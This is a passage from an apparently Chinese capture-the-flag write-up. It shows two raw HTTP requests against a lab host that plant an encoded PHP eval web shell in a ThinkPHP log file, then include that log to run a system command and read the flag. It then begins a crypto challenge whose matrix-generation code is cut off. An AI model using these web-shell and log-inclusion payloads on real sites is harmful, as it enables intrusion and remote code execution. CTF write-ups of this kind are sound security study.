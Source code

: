 ```http
Origin: http://172.16.30.176:58002
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.30.176:58002/?s=home/index/textBox
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

query=name%253DOrg%255CNet%255CHttp%2526id%253D%253C%253Fphp%2520%2540eval(%2524_POST%255Bpass%255D)%253B%2520%253F%253E%2526tag%253Ddownload

```
读 flag，这里的文件路径是先 ls 来的  
```http
POST /?s=home/index/textBox HTTP/1.1
Host: 172.16.30.176:58002
Content-Length: 188
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.30.176:58002
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.30.176:58002/?s=home/index/textBox
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

query=name%253D%255CThink%255CStorage%255CDriver%255CFile%2526id%253D.%252FApplication%252FRuntime%252FLogs%252FHome%252F22_06_18.log%2526tag%253Dload&pass=system('cat /Secret_is_h3re');

```



## Crypto
### gcrd2（100）

#### 题目

```
import numpy as np
from flag import T
import random

np.set_printoptions(threshold=np.inf)
def get():
    while True:
        x = []
        for i in range(32):
            add = [random.randint(0, 10)] * i + [random.randint(0, 10)] * (32 - i)
            x.append(add)
        if np.linalg.matrix_rank(x) == 32:
            return x


a = np.array(get())
b = np.array(get())

```